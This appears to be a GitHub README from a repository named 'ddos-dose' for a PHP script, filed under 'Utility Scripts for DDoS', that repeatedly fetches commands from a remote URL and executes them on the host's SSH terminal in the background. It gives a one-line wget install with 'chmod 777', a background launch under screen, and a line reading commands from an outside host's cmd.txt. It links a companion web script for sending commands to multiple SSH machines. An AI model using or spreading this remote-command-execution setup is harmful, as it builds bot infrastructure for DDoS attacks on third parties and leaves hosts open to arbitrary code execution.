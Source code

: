 
# Read Command from URL and Execute on SSH Terminal ↓

## Features

- Fast execution
- Customize delay between the last command executed or to read new one
- Basic PHP script



## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install php -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Utility%20Scripts%20for%20DDoS/Read%20Command%20from%20URL%20and%20Execute%20on%20SSH%20Terminal/read.php && chmod 777 *
```
## Usage

```
Recommended to Execute this script under screen command.
So it's will run on backgroup and keep checking for command on URL
```
```
screen -d -m php read.php
```
```
To customize the URL from where the script read for command (Line 10)
    $GetCmd = file_get_contents("https://nee.dultr.in/cmd.txt");
Change the URL between ""    
```
## For writing the Command to "cmd.txt" file, a php web script

Check this folder of repo, You can use this to write command to "cmd.txt" using web interface!

[Click Here for that Script](https://github.com/cyberceros/ddos-dose/tree/main/Utility%20Scripts%20for%20DDoS/API%20to%20Send%20Command%20to%20Multiple%20SSH)


## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in
